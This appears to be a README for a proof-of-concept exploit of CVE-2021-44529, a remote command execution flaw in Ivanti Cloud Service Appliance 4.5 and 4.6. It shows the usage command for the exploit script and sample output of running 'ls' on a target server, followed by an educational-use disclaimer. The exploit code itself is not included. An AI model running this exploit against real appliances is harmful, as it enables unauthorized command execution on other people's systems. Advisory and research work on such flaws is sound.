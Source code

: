 # CVE-2021-44529

## Vendor Homepage: https://www.ivanti.com/ 
## Software Link: https://forums.ivanti.com/s/article/Customer-Update-Cloud-Service-Appliance-4-6 
## Version: CSA 4.6 4.5 - EOF Aug 2021 

Execute
```
python3 exploit.py <URL> <command>
```
Example
```
python3 exploit.py 'https://x.x.x.x' 'ls'

LDMGdeploy.pdf
LDSupport.exe
OnDemand.php
RCClient.dmg
RCClient.exe
about.php
download.php
images
index.php
menus.php
site.conf
style.php
test.txt
tools.php
```
The exploit present in this repository should be used only for educational purpose. I am not responsible for any illegal activity carried out using exploits or snippet of it.
